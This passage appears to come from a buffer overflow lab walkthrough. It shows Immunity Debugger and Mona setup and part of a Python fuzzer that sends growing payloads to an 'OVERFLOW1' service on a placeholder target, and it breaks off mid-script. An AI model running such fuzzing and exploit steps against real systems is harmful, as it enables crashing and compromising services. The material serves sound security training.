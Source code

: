 \[...snip...]

EXIT

* Choose "OVERFLOW 1 test".

OVERFLOW1 test

OVERFLOW1 COMPLETE

* Terminate netcat connection.

#### **Mona Configuration** <a href="#lt1to8tphjx6" id="lt1to8tphjx6"></a>

* Configure Mona working folder.
* Run command in input box at bottom of Immunity Debugger window.

!mona config -set workingfolder c:\mona\\%p

![image](../.gitbook/assets/2.png)

#### **Fuzzing** <a href="#abx6ltpb9laf" id="abx6ltpb9laf"></a>

* Create "fuzzer.py" file on attack host.

\#!/usr/bin/env python3

import socket, time, sys

ip = "TARGET\_IP"

port = 1337

timeout = 5

prefix = "OVERFLOW1 "

string = prefix + "A" \* 100

while True:

try:

with socket.socket(socket.AF\_INET, socket.SOCK\_STREAM) as s:

s.settimeout(timeout)

s.connect((ip, port))

s.recv(1024)

print("Fuzzing with {} bytes".format(len(string) - len(prefix)))

s.send(bytes(string, "latin-1"))
